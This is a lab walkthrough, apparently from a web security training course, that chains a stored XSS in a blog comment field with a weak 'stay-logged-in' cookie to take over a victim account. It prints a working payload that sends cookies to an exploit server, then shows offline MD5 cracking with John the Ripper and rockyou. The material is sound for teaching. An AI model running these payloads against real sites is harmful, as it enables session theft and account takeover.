








## Introduction

> This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's `stay-logged-in` cookie and use it to crack his password. Then, log in as `carlos` and delete his account from the "My account" page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`

Log in as `wiener` to post comments.

## XSS stored vulnerability

Navigate through the blog and choose an article. Each post has a comment section at the bottom.



We can post comments. Let's start with a simple comment to check the behavior:


We have a confirmation message. When we go back, we can see our comment:



Let's post a new comment but this time, we will try to inject `<h1>` tags with this comment `<h1>This is a new comment.</h1>`:



As we can see, our comment is interpreted as a title. This confirms the comment field is vulnerable to stored XSS.

To steal the cookie from `carlos`, we’ll inject malicious JavaScript that sends the cookies back to a server we control. Every time a user visits this page, the malicious code loads and executes :

```javascript
This is just a comment ...<script>var i=new Image(); i.src="https://exploit-0a42001e03dfb4228089707d01f6008d.exploit-server.net/exploit?cookie="+btoa(document.cookie);</script>
```

*Payload from [this](https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e) medium article.*

Post the comment:



The process is completely **invisible** to the user.

On the server we control, we just wait for `carlos` to load the page:



We receive two cookies : one is ours, so we decode the other one.



The `stay-logged-in` value is: `Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz`. 

Decode it from base64:



Finally, we have: `carlos:26323c16d5f4dabff3bb136f2460a943`.

## Hash cracking

Identify the type with `haiti`:

```bash
exegol-secu-web /workspace # haiti '26323c16d5f4dabff3bb136f2460a943'
MD5 [HC: 0] [JtR: raw-md5]
LM [HC: 3000] [JtR: lm]
...
```

It seems to be MD5. Save it to a new file.

```bash
echo "carlos:26323c16d5f4dabff3bb136f2460a943" > hash
```

Try to crack it with JohnTheRipper:

```bash
exegol-secu-web /workspace # john hash --wordlist=/opt/lists/rockyou.txt --format=raw-md5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=16
Note: Passwords longer than 18 [worst case UTF-8] to 55 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
onceuponatime    (carlos)     
1g 0:00:00:00 DONE (2026-10-18 23:00) 16.67g/s 1939Kp/s 1939Kc/s 1939KC/s outrage..muñeka
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
```

We found `carlos:onceuponatime`. Use these credentials to log in as `carlos`:



And then, delete his account to solve the lab.


## Conclusion

This lab demonstrates how a stored XSS vulnerability can be chained with weak cookie-based authentication to fully compromise an account. By injecting a script into the comment field, we were able to exfiltrate another user’s session cookie, extract their password hash, and crack it offline to recover their plaintext password. This highlights why sensitive data such as password hashes should never be stored client-side, even in an encoded form.
